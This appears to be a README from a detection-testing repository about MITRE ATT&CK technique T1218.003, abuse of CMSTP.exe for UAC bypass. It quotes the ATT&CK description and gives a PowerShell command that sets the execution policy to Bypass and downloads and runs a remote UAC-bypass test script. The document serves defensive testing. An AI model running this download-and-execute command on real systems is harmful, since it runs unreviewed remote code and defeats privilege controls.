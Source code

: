 # T1218.003 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)
<blockquote>Adversaries may abuse CMSTP to proxy execution of malicious code or to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002).

The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

CMSTP.exe can be abused to and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Tests

- CMSTP Executing UAC Bypass

## How To Run
Open PowerShell.exe as an administrative user, but **do not** "Run as Administrator". Then execute the following commands:

```PowerShell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process

IEX(IWR "https://github.com/SecurIT360/TTP-Detection-Testing/raw/master/Defense-Evasion/T1218.003/CMSTP_UACBypass_Test.ps1")
```